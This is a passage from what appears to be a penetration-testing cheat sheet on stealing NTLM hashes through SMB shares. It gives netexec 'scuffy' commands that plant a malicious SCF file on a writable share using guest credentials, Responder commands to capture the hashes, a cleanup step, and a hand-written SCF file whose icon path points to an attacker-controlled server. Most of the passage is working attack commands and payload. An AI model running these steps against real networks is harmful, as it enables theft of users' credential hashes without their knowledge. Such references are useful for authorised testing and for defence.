 All described methods (SCF, LNL, SC) require `WRITE` access to a share/directory.

* If `WRITE` access to a share is available, [NetExec](../../../tools/active-directory/netexec-cme.md) modules can be used for automation.
* If `WRITE` access is only available within a `READABLE` share, the process must be done manually.

{% hint style="warning" %}
Share permissions can be configured to only allow folders to be created, not files; `nxc` will flag `WRITE` access in those cases.
{% endhint %}

For stealing the hash, **the user must only browse the share, not interact with the file**. Finally, the Metasploit's `auxiliary/server/capture/smb` module can be used instead of Responder.

#### SCF

If `WRITE` access to the `Users` share is available.

{% tabs %}
{% tab title="1. Create SCF" %}
{% code overflow="wrap" %}
```bash
nxc smb <TARGET-IP> -u 'guest' -p '' -M scuffy -o NAME=README SERVER=<SMB-SERVER-IP>
```
{% endcode %}
{% endtab %}

{% tab title="2. Listen" %}
<pre class="language-bash"><code class="lang-bash"><strong>sudo responder -I tun0
</strong></code></pre>
{% endtab %}

{% tab title="3. Clean" %}
{% code overflow="wrap" %}
```bash
nxc smb <TARGET-IP> -u 'guest' -p '' -M scuffy -o NAME=README SERVER=<SMB-SERVER-IP> CLEANUP=True
```
{% endcode %}
{% endtab %}
{% endtabs %}

The example below assumes that the share is [locally mounted](smb-139-445.md#operations) and `WRITE` access is available for the `SMB/Users/WritableDir` folder, but not for the `Users` share.

{% tabs %}
{% tab title="1. Create SCF" %}
```bash
[Shell]
Command=2
IconFile=\\10.10.10.10\share\test.io
[Taskbar]
Command=ToggleDesktop
```
{% endtab %}

{% tab title="2. Listen" %}
```bash
sudo responder -I tun0
```
{% endtab %}

